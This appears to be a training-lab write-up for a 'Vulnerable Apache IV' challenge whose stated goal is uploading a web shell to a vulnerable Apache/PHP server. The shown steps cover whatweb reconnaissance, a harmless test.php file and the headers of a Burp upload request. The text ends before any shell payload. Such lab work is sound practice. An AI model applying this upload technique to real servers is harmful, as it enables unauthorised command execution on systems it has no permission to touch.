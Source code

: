 #### Lab Environment

**Vulnerable Apache IV**

Apache is probably the most popular web server on the World Wide Web with millions of deployments! In this series of challenges, we hope to explore how attackers can exploit webapps running on Apache arising due to server misconfigurations and/or application vulnerabilities. Take a look at the scenario below.

The target server has not been properly secured against <u>arbitrary file upload</u> and <u>execution vulnerability</u>.

**Objective**: Your objective is to upload a web shell, execute arbitrary commands on the server and retrieve the flag!

#### Lab Solution

`whatweb https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/`:
```
https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/ [200 OK] Apache[2.4.7], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[172.104.136.144], JQuery, PHP[5.5.9-1ubuntu4.25],📌 Script, X-Powered-By[PHP/5.5.9-1ubuntu4.25]
```

`echo '<?php echo "test" ?>' > ./test.php`

![Lab - Vulnerable Apache IV](./assets/06_file_and_resource_attacks_lab_vulnerable_apache_iv.png)

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/
Content-Type: multipart/form-data; boundary=---------------------------220412119661351292736528440
Content-Length: 250
Origin: https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com
Upgrade-Insecure-Requests: 1
```